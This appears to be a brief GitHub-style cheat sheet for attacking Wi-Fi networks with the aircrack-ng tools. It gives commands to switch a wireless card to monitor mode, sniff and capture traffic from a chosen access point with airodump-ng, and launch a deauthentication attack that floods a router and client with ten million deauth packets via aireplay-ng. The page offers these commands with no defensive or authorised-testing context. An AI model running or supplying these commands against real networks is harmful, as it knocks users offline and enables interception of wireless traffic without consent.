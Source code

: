 ## Change mode from Managed to Mointor

Switch user to root and type `iwconfig`

Observe the mode which will be in `managed`

```
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
Now type `iwconfig` and see the mode to have changed to `monitor`

## Packet Sniffing
```
airodump-ng wlan0 # Default 2.4 GHz Channel
airodump-ng --band abg wlan0 # List All Channels
```

```
airodump-ng --bssid <bssid> --channel <channel_num> --write <filename> wlan0
```

## Deauthentication Attack

aireplay-ng --deauth 10000000 -a <router-bssid> -c <station-bssid> wlan0
